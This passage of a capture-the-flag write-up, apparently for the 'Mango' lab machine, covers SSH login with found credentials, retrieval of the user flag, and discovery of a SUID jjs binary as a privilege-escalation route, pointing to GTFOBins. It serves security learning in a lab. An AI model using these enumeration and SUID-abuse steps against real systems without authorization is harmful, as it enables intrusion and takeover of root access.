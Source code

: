 ### System enumeration

**TL;DR**: jjs history

It seems there is not more stuff to do on teh webapp.

But we can use the credentials to connect via ssh.

```
$ ssh mango@10.10.10.162

mango@mango:~$ ls -lhA /home/admin/
total 40K
lrwxrwxrwx 1 admin admin    9 Sep 27 14:30 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 admin admin 3.7K Apr  4  2018 .bashrc
-rw-rw-r-- 1 root  admin  481 Mar 27 16:53 .jjs.history
-rw-rw-r-- 1 admin admin  227 Mar 27 16:53 js
drwxrwxr-x 3 admin admin 4.0K Mar 27 16:27 .local
-rw-r--r-- 1 admin admin  807 Apr  4  2018 .profile
-rw-rw-r-- 1 admin admin 8.5K Mar 27 16:31 test.py
-r-------- 1 admin admin   33 Sep 27 14:29 user.txt

mango@mango:~$ su admin
Password:
$ id
uid=4000000000(admin) gid=1001(admin) groups=1001(admin)
$ cd
$ cat user.txt
79bf31c6c6eb38a8567832f7f8b47e92
```

We found the user flag we also saw there is a `.jjs.history` file.

### System Privilege Escalation of Machine 

**TL;DR**: jjs SUID

So let's find where is the `jjs` binary on the file system.

```
admin@mango:/home/admin$ ls -lh $(which jjs)
lrwxrwxrwx 1 root root 21 Sep 27 14:15 /usr/bin/jjs -> /etc/alternatives/jjs
admin@mango:/home/admin$ ls -lh /etc/alternatives/jjs
lrwxrwxrwx 1 root root 42 Sep 27 14:15 /etc/alternatives/jjs -> /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
admin@mango:/home/admin$ ls -lh /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
-rwsr-sr-- 1 root admin 11K Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

We can see there is a SUID bit on the binary.

As each time we want to do an pe on Linux, let's check [GTFOBins][GTFOBins]
first. There is a page for [jjs][jjs].

[GTFOBins]:https://gtfobins.github.io/
[jjs]:https://gtfobins.github.io/gtfobins/jjs/#suid
